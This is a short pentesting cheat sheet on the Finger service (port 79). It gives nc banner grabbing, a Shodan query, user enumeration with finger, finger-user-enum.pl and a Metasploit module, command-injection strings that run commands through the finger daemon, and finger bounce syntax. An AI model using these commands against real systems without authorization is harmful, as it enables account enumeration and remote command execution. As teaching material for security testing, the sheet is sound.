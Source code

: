 ```yaml
---
title: Finger Pentesting Best Practices
categories: [pentesting protocols,finger]
tags: [pentesting,finger,best practicies]
comments: true
---
```


# Finger

> Finger usually uses port 79
{: .prompt-tip }

# What is Finger?

Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

```bash
PORT     STATE SERVICE               VERSION
79/tcp   open  fing                  Debian fingerd 
```

# Finger Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| `port:79` |

## Banner Grabbing

```bash
nc -vn 10.10.x.x 79
echo "root" | nc -vn 10.10.x.x 79
```

## Finger Credentials

### User Enumeration

```bash
finger @10.10.x.x      #List users
finger admin@10.10.x.x #Get info of user
finger user@10.10.x.x  #Get info of user

#########
finger admin@192.186.x.x 
Login: admin                            Name: Jhon Doe 
Directory: /home/admin                  Shell: /bin/bash 
Never logged in. 
No mail. 
No Plan.
```

### Alternatively you can use finger-user-enum from pentestmonkey, some examples:

Download script and run it with a wordlist: [HERE](https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum-user-docs.pdf)

`finger-user-enum.pl` is a tool for enumerating OS-level user accounts via the finger service. As of release v1.0 it is known to work against the default Solaris daemon. It may not yet work against all daemons since there is no defined format for the data returned by the finger service.

```bash
finger-user-enum.pl -U users.txt -t 10.10.x.x
finger-user-enum.pl -u root -t 10.10.x.x
finger-user-enum.pl -U users.txt -T ips.txt
```

![Untitled](/assets/img/pitcures/finger/finger.png)

### Metasploit module for user enumeration

```bash
msf > use auxiliary/scanner/finger/finger_users
```

![Untitled](/assets/img/pitcures/finger/finger1.png)

## Code Execution

```bash
finger "|/bin/id@10.10.x.x"
finger "|/bin/ls -a /@10.10.x.x"
```

## Finger Bounce

```bash
finger user@host@victim
finger @internal@external
```